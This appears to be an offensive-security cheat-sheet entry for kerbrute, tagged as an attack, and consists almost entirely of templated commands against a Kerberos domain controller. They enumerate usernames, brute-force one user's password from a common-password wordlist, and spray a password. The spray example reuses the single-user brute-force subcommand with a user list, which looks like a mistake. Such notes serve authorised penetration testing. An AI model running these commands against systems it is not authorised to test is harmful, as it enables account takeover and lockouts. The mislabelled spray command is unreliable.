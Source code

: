 # kerbrute
#plateform/linux #target/remote #cat/ATTACK

## Test userlist
```
kerbrute userenum -d <domain> --dc <target> <usersfile|test_users.txt>
```

## Bruteforce user
```
kerbrute bruteuser -d <domain> --dc <target> <wordlist|/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt> <user>
```

## Password spray
```
kerbrute bruteuser -d <domain> --dc <target> <usersfile|valid_users.txt> <passwd>
```
